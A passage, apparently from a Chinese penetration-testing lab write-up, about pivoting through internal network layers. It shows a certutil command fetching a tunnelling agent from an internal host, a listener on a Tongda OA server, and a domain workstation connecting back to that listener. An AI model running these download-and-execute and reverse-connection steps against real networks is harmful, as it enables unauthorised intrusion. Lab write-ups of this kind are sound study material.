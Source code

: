 经过测试不出网，选择将 agent 放在第二层网络 - 通达 OA 服务器上访问去下载。

```plaintext
certutil -urlcache -split -f http://192.168.52.30:8080/windows_x64_agent.exe
```

![验证第三层代理 -2.png](assets/1708583756-530ea9231bc5f57a8ba158d61cc84f32.png)

在节点 Note 1（通达 OA）上开启监听端口 192.168.93.20:20001。

```plaintext
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 192.168.93.20:20001
[*] Waiting for response......
[*] Node is listening on 192.168.93.20:20001
(node 1) >> 
```

域内单机反向连接到 Note 1（第二层网络 - 通达 OA）。

```plaintext
C:\Users\moretz.WHOAMIANONY\Desktop>windows_x64_agent.exe -c 192.168.93.20:20001 -s test
2023/03/13 18:21:18 [*] Starting agent node actively.Connecting to 192.168.93.20:20001
```

OA 节点主动显示新节点 Note 2 连接，成为 Note 1 子节点。
